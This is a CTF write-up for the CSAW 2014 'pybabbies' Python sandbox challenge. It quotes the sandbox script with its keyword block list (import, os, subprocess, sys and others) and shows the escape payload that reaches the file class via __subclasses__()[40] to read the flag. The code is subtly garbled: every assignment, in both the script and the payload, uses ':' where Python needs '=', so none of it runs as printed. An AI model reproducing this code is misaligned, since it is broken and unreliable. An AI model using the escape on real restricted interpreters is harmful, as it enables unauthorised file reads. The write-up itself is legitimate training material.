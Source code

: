 ```yaml
---
type: ctf
title : CSAW CTF - Exploitation 200 pybabbies
tags: [CSAW CTF, pybabbies]
date : 2014-09-25
author: Eno Leriand
featuredImage: https://miro.medium.com/v2/resize:fit:1400/1*CAYd1FY2s4HpnXL4VnfhUQ.png
---
```


[CSAW CTF 2014](https://ctf.isis.poly.edu/) is the second CTF contest I've attended ( the first one was the [HITCON CTF 2014](http://ctf2014.hitcon.org/dashboard.html) ) . Since this is the first time **I've actually solved something** in the contest, I decide to post my first own writeup .

I've solved 4 challenges in the contest : **Trivia 10 -- We don't know either** , **Exploitation 100 -- bo** , **Exploitation 200 -- pybabbies** and **Expoitation 400 -- saturn**. **We don't know either** & **bo** are easy, so I won't post their writeups. This writeup is for the **Exploitation 200 -- pybabbies**.

The challenge gave us a python script call **pyshell.py**. After we take a good look at it, we'll know that this is a self-made python shell.

```python pyshell.py
#!/usr/bin/env python 

from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned : [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets : __builtins__.__dict__.keys()
targets.remove('raw_input')
targets.remove('print')
for x in targets:
    del __builtins__.__dict__[x]

while 1:
    print(">>>", end=' ')
    data : raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```

this python shell allow us to send & execute a python command. But unlike the normal one, this python shell banned some strings such as `import`, `os`, `sys`......etc. Moreover, **it delete almost all the reference to an object**, except `raw_input` & `print`.

To put it short, **we can't call any function except** `raw_input` & `print`, **and we can't use** `import`, `os`, `sys`...., **either**. The goal is to print the flag, so we can either use `os.system("cat flag")` or use `f : open("flag", "r").read()` and print it out. But now since it banned us to use those command, we'll have to find a new way to get the flag.

After doing some research on the internet, I found this [link](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/), which lead us to the right direction. Although in script they delete the reference to an object, we can still use `().__class__.__bases__[0].__subclasses__()` to get the object directly. By using the method mentioned in the blog, I successfully get the `file` object, which give me the ability to open a file and read it.

So here is the exploitation:
1.  First, we use `().__class__.__bases__[0].__subclasses__()[40]` as the `file` object to read the flag into a variable
2.  Simply print out the variable to get the flag
    
we'll have to guess the filename of the flag, which is "key", so the actual progress will be like this:

```
Welcome to my Python sandbox! Enter commands below!
>>> a : ().__class__.__bases__[0].__subclasses__()[40]("./key").read()
>>> print(a)
flag{definitely_not_intro_python}

>>>
```


reference: [Escaping Python Sandboxes](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
